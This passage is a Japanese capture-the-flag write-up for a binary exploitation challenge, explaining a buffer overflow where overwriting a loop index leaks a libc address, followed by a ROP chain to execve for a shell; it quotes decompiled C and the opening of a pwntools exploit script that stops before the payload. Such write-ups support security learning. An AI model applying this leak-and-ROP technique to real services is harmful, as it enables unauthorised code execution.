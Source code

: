 という構造体がいることがわかります。n 回目のチャレンジで `buf[n]` が使われるという感じです。

さて、BoF があるので、10 文字目を大きく取ると次のチャレンジの len を大きくすることができ、更に大きな BoF を引き起こすことができますが、スペースなどを入力できないのに加え、途中で入力を中断することもできません。したがって、バッファのサイズを不正に大きくすることはできますが、そのバッファはすべてユーザの入力で埋まってしまい、アドレスのリークができません。

該当コード

```c
printf("What is your guess #%d?\n",(ulong)(chall_num + 1));
for (idx = 0; idx < (int)(uint)(byte)ans[chall_num].length; idx = idx + 1) {
    input_char = getchar();
    local_21 = (char)input_char;
    while( true ) {
    ppuVar3 = __ctype_b_loc();
    if (((*ppuVar3)[local_21] & 0x2000) == 0) break;
    input_char = getchar();
    local_21 = (char)input_char;
    }
    ans[chall_num].buf[idx] = local_21;
}
```

と、競技中に思っていたのですが、どうやら for 文のインデックスで使われている変数 `idx` が `buf` の下にあるため、`buf.len = 0xfe` としつつ、`idx` を書き換えるところで `0xff` を書き込んでやれば、そこで入力が停止してその先にあるメモリの内容が読める（libc のアドレス）、ということらしいです（チームメイトの解答を読んでいる限り）。

libc のリークができたら、あとはシェルを呼ぶいい感じの ROP コードを書き込んでいきます。`idx` を調整して、ちょうどリターンアドレスがあるところまで飛ばし、main を終わらせれば勝ちです。
ちなみに、 `system` だと改行文字が入って動かないため `execve` を使いました。

表示の部分がエスケープシーケンスになっており、そこらへんがちょっと面倒だった気がします。それを除けば、割と素直な pwn だったかな。

exploit.py

```python
import sys

#LOCAL = "LOCAL" in sys.argv
LOCAL = True

from ptrlib import nasm
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h']
context.arch = 'amd64'
context.os = 'linux'
context.bits = 64

# BIN_NAME = './challenge'
BIN_NAME = './challenge_patched'
REMOTE_ADDR = os.environ.get('HOST', 'localhost')
REMOTE_PORT = 31337
REMOTE_LIBC_PATH = 'libc.so.6'

libc = ELF("./libc.so.6")

scripts = """
  seploader challenge
  # b 298
  b 329
"""

if LOCAL: stream = process(BIN_NAME)
# if LOCAL: stream = gdb.debug(BIN_NAME, gdbscript=scripts)
else: stream = remote(REMOTE_ADDR, REMOTE_PORT)

idx_offset_from_1 = 0x6c

```